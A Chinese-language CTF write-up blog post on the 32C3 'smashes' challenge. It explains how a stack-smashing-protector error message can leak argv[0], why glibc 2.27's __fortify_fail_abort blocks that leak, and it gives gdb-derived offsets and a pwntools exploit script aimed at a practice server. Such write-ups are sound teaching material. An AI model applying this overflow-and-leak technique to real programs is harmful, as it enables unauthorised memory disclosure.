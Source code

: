 ```yaml
---
layout: post
title: "Stack Smashing Protector (SSP):__fortify_fail ->__fortify_fail_abort "
date: 2018-09-3
excerpt: "A ton of text to test readability with image feature."
tags: [pwn, ctfwiki,SSP,stack,CTF]
feature: https://i.ytimg.com/vi/uSC3guWOvpk/maxresdefault.jpg
comments: true
---
```


# Stack Smashing Protector (SSP):__fortify_fail ->__fortify_fail_abort 

ctfwiki上的一道例题32C3 CTF smashes
https://ctf-wiki.github.io/ctf-wiki/pwn/stackoverflow/others/#stack-smash

这个姿势很有意思，通过canary保护的报错来leak出我们想要的信息。

它报错时会调用以下函数：
```
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}



void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
直接会输出错误信息。

具体的原理和操作可以看ctfwiki或者直接搜32C3 CTF smashes的WP

然而我复现的时候发现在自己的虚拟机上只会输出
![Alt text](http://thyrsi.com/t6/366/1536070637x-1566657657.png)


查了资料发现和libc有关（？）

用的libc-2.27.so
![Alt text](http://thyrsi.com/t6/366/1536070669x-1566657657.png)

原因是我的__stack_chk_fail是这样的：
```
gdb-peda$ disassemble  __stack_chk_fail
Dump of assembler code for function __stack_chk_fail:
   0x00007ffff7eec450 <+0>:	lea    rsi,[rip+0x78be8]        # 0x7ffff7f6503f
   0x00007ffff7eec457 <+7>:	sub    rsp,0x8
   0x00007ffff7eec45b <+11>:	xor    edi,edi
   0x00007ffff7eec45d <+13>:	call   0x7ffff7eec470 <__GI___fortify_fail_abort>
```
它没有使用__fortify_fail，而是使用了fortify_fail_abort来防止argv [0]的泄露。



fortify_fail_abort是这样的
```
__fortify_fail_abort (_Bool need_backtrace, const char *msg)
{
  /* The loop is added only to keep gcc happy.  Don't pass down
     __libc_argv[0] if we aren't doing backtrace since __libc_argv[0]
     may point to the corrupted stack.  */
  while (1)
    __libc_message (need_backtrace ? (do_abort | do_backtrace) : do_abort,
                    "*** %s ***: %s terminated\n",
                    msg,
                    (need_backtrace && __libc_argv[0] != NULL
                     ? __libc_argv[0] : "<unknown>"));
}
//https://code.woboq.org/userspace/glibc/debug/fortify_fail.c.html#40
```
可见，wihile循环里，``__libc_message ``的第一个参数从``2``变成了
``need_backtrace ? (do_abort | do_backtrace) : do_abort``

其中``do_abort``和``do_backtrace``分别是1和2，定义如下
```
enum __libc_message_action
{
  do_message        = 0,                /* Print message.  */
  do_abort        = 1 << 0,        /* Abort.  */ 
  do_backtrace        = 1 << 1        /* Backtrace.  */
};
```

就是取消了默认回溯->报错信息显示argv [0]这样子。




想用centos做，反正我centos的libc比较……古老

![Alt text](http://thyrsi.com/t6/366/1536070693x-1566657657.png)

确实也能够leak出程序名（？）

![Alt text](http://thyrsi.com/t6/366/1536070722x-1566657657.png)

但是centos没有pwntools也懒得装

直接怼远程试试好了

先找buf到argv[0]的偏移，直接r然后输入个ABC然后第二次输入那里ctrl+C终端看此时的栈。

![Alt text](http://thyrsi.com/t6/366/1536070741x-1566657657.png)

```
buf：0x7fffffffdf60
argv[0]:0x7fffffffe0a8 --> 0x7fffffffe178 --> 0x7fffffffe463 ("/root/Desktop/wiki/smashes")

hex(0x7fffffffe178 - 0x7fffffffdf60) = 0x218L
```

和ctf上描述的相符

然后find CTF 找到flag_addr

得到exp如下：

```
from pwn import *

context.log_level = 'debug'

io  = remote('pwn.jarvisoj.com', 9877)

flag_addr = 0x400d21


pattern = 'A'*0x218

payload = pattern + p64(flag_addr)


io.sendlineafter('name?',payload)

io.sendlineafter('flag:','')
io.interactive()
```

没成。

然后这里还有一个坑

……啊这里是64位的程序要用p64而不是p32，做32x做傻了。

还有一个就是

![Alt text](http://thyrsi.com/t6/366/1536070765x-1566657657.png)


然而用的应该是``0x400d20``不然会少一个字母（。）

所以改下这两个地方就可以了。

以为会遇到

设置环境变量``LIBC_FATAL_STDERR_=1``才能实现将标准错误信息通过管道输出到远程shell中

的坑然而并没有。
这个坑这里有说：
https://blog.csdn.net/happyorange2014/article/details/50459201

以上




参考：

1.https://firmianay.gitbooks.io/ctf-all-in-one/content/doc/4.12_stack_chk_fail.html
2.https://qiita.com/sei0o/items/55db337b0829367a2052
3.http://site.pi3.com.pl/papers/ASSP.pdf


看第三个链接可以i意思意思继续深入了解一下SSP，里面介绍了不少和SSP相关的一些攻击。















